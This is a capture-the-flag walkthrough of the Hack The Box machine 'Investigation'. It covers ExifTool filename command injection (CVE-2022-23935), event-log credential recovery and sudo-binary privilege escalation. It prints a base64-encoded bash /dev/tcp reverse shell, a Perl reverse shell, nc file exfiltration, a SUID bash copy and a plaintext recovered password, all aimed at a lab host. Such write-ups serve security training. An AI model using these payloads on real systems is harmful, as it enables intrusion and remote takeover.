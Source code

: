 ## HTB: Investigation (Linux)

### 🧠 Box Summary
Investigation is a Linux-based HTB machine that starts with a PHP-based image upload portal vulnerable to command injection via ExifTool (CVE-2022-23935). Upon exploitation, a `.msg` file reveals user credentials through Event Log analysis. Privilege escalation is achieved by abusing a root-executable binary that downloads and executes scripts with Perl.

---

## 🔍 Recon

### Nmap Scan
```bash
nmap -p- --min-rate 10000 10.10.11.197
nmap -p 22,80 -sCV 10.10.11.197
```
- Open Ports: 22 (SSH), 80 (HTTP)
- Redirects to: `http://eforenzics.htb/`

### Hosts File
```
10.10.11.197 eforenzics.htb
```

### Feroxbuster
```bash
feroxbuster -u http://eforenzics.htb -x php,html
```
- Found: `/upload.php`, `/service.html`, various assets

---

## 💻 Shell as www-data

### CVE-2022-23935 - ExifTool Filename Injection
- ExifTool version: 12.37
- Exploit by setting filename to a command ending in `|`

### Example Payload:
```bash
filename: ping -c 1 10.10.14.6|
```
Confirm RCE using tcpdump or Burp.

### Reverse Shell
```bash
# Encode reverse shell to avoid special chars
echo 'bash -i &> /dev/tcp/10.10.14.6/443 0>&1' | base64 -w0

# Upload using filename set to: bash -c {echo,<base64>}|base64 -d|bash|
```
Receive with netcat:
```bash
nc -lnvp 443
```

### Shell Upgrade
```bash
script /dev/null -c bash
<Ctrl-Z>
stty raw -echo; fg
reset
```

---

## 👤 Shell as smorton

### Find Sensitive Files
```bash
find / -user smorton 2>/dev/null
```
Found: `/usr/local/investigation/Windows Event Logs for Analysis.msg`

### Crontab
```bash
crontab -l
```
Contains cleanup script, broken by immutable log file `analysed_log`.

### Exfiltrate `.msg`
```bash
nc -lnvp 443 > analysis.msg
cat analysis.msg | nc 10.10.14.6 443
```

### Analyze Email
```bash
msgconvert analysis.msg --mbox analysis.mbox
mutt -f analysis.mbox
# Save attachment: evtx-logs.zip
unzip evtx-logs.zip
```

### Convert EVTX to JSONL
```bash
evtx_dump security.evtx -o jsonl -t 1 -f security.json
```

### JQ Analysis
- Identify failed login with password in username field:
```bash
jq -r 'select(.Event.System.EventID==4625) | .Event.EventData.TargetUserName' security.json
```
Found password: `Def@ultf0r3nz!csPa$$`

### SSH as smorton
```bash
sshpass -p 'Def@ultf0r3nz!csPa$$' ssh smorton@eforenzics.htb
```

---

## 🧠 Shell as root

### Sudo Access
```bash
sudo -l
```
Can run: `/usr/bin/binary` as root

### Binary Behavior
- Downloads file from URL (arg1)
- Saves as `lDnxUysaQn` (arg2)
- Runs with: `perl ./lDnxUysaQn`
- Cleans up the file

### Option 1: Perl Reverse Shell
```perl
use Socket;
$i="10.10.14.6";$p=443;
socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));
if(connect(S,sockaddr_in($p,inet_aton($i)))) {
    open(STDIN,">&S"); open(STDOUT,">&S"); open(STDERR,">&S"); exec("sh -i");
}
```
Run:
```bash
sudo binary http://10.10.14.6/shell.pl lDnxUysaQn
```

### Option 2: Bash with Shebang
```bash
#!/bin/bash
cp /bin/bash /tmp/rootbash
chmod 4777 /tmp/rootbash
```
Run:
```bash
sudo binary http://10.10.14.6/root.sh lDnxUysaQn
/tmp/rootbash -p
```

### Option 3: Race Condition
```bash
# One terminal:
while :; do if [ -f lDnxUysaQn ]; then mv -f lDnxUysaQn garbage; cp -f 0xdf.sh lDnxUysaQn; sleep 1; rm lDnxUysaQn; fi; done

# Second terminal:
sudo binary http://10.10.14.6/race lDnxUysaQn
```

---

## 🏁 Flags
- User: `fe330173************************`
- Root: `e9f2ff77************************`

---

## 🧩 Notable Tools Used
- [ExifTool](https://exiftool.org/)
- [evtx_dump](https://github.com/omerbenamram/evtx)
- [mutt](http://www.mutt.org/), [msgconvert](https://metacpan.org/pod/distribution/Email-Outlook-Message/bin/msgconvert)
- [jq](https://stedolan.github.io/jq/), [feroxbuster](https://github.com/epi052/feroxbuster)